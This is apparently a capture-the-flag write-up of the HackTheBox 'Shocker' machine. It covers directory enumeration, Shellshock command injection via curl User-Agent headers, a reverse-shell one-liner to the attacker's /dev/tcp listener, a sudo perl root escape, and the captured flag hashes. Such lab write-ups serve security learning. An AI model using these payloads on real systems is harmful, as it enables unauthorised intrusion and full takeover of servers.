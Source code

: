 ```yaml
---
title: HackTheBox - Shocker
categories: [HackTheBox, HackTheBox - Linux]
date: 2022-08-20
tags: [exploit/shell-shock, linux-priv-esc/sudo/gtfo-bin ]
img_path: /Writeups/HackTheBox/Linux/Shocker/images/
image:
  src: Pasted%20image%2020220820044938.png
  width: 1000   # in pixels
  height: 400   # in pixels
---
```


# Overview 

This machine begins w/ a web directory enumeration, finding a `cgi-bin/` directory, and by further enumerating the found directory (`cgi-bin/`), a bash script is found, allowing us to use an exploit called shellshock to execute commands, obtaining a low-privilege shell/`shelly `shell.

On the system, the `shelly` has a sudoers entry that allows `shelly` to execute `perl` as `root`, which is exploitable allowing us to spawn a `root` shell.

---

| Column       | Details                                                     |
|--------------|-------------------------------------------------------------|
| Box Name     | Shocker                                                     |
| IP           | 10.10.10.56                                                 |
| Points       | -                                                           |
| Difficulty   | Easy                                                        |
| Creator      | [mrb3n](https://www.hackthebox.com/home/users/profile/2984) |
| Release Date | 30-Sep-2017                                                 |

# Recon

## TCP/80 (HTTP)

### FFUF

```
                        [Status: 200, Size: 137, Words: 9, Lines: 10]
.hta                    [Status: 403, Size: 290, Words: 22, Lines: 12]
.htaccess               [Status: 403, Size: 295, Words: 22, Lines: 12]
.htpasswd               [Status: 403, Size: 295, Words: 22, Lines: 12]
cgi-bin/                [Status: 403, Size: 294, Words: 22, Lines: 12]
index.html              [Status: 200, Size: 137, Words: 9, Lines: 10]
server-status           [Status: 403, Size: 299, Words: 22, Lines: 12]
```

- `cgi-bin` directory is found

# Initial Foothold

## TCP/80 (HTTP) - Shell Shock

1. Since the machine is called `Shocker` and we find a `cgi-bin` directory, it is very likely our initial foothold is obtained via [shellshock](https://yufongg.github.io/posts/Shellshock-via-cgi-bin/)
2. Enumerate `cgi-bin` directory, [specifying scripting language extensions](https://en.wikipedia.org/wiki/Scripting_language)

	```
	┌──(root💀kali)-[~/htb/shocker/10.10.10.56/loot]
	└─# ffuf -u http://shocker.htb/cgi-bin/FUZZ -w /usr/share/wordlists/dirb/common.txt -e '.cgi,.pl,.sh,.ps1,.py,.php'
	
	user.sh                 [Status: 200, Size: 118, Words: 19, Lines: 8]
	```

	- `user.sh`
3. Attempt shellshock on `/cgi-bin/user.sh`

	```
	┌──(root💀kali)-[~/htb/shocker/10.10.10.56/loot]
	└─# curl -A "() { :;}; echo Content-Type: text/html; echo; /usr/bin/whoami;" http://shocker.htb/cgi-bin/user.sh
	shelly
	
	```

4. Obtain a shell

	```
	┌──(root💀kali)-[~/htb/shocker/10.10.10.56/loot]
	└─# curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.10.14.8/4444 0>&1' http://shocker.htb/cgi-bin/user.sh
	```

	![](Pasted%20image%2020220820043637.png)

5. User Flag
	![](Pasted%20image%2020220820043857.png)
	- `2ec24e11320026d1e70ff3e16695b233`

# Privilege Escalation

## Root - Via SUDO GTFOBins 

1. Check `shelly` sudo access
	- `/usr/bin/perl`
		- Perl has a [GTFOBins entry](https://gtfobins.github.io/gtfobins/perl/#sudo)
2. Exploit and Obtain Root Flag

	```
	sudo perl -e 'exec "/bin/sh";'
	```

	![](Pasted%20image%2020220820044027.png)

	- `52c2715605d70c7619030560dc1ca467`
3. Change password of `root` & SSH to obtain `root` user

	```
	# passwd  
	Enter new UNIX password: 
	Retype new UNIX password: 
	```

	![](Pasted%20image%2020220820044452.png)
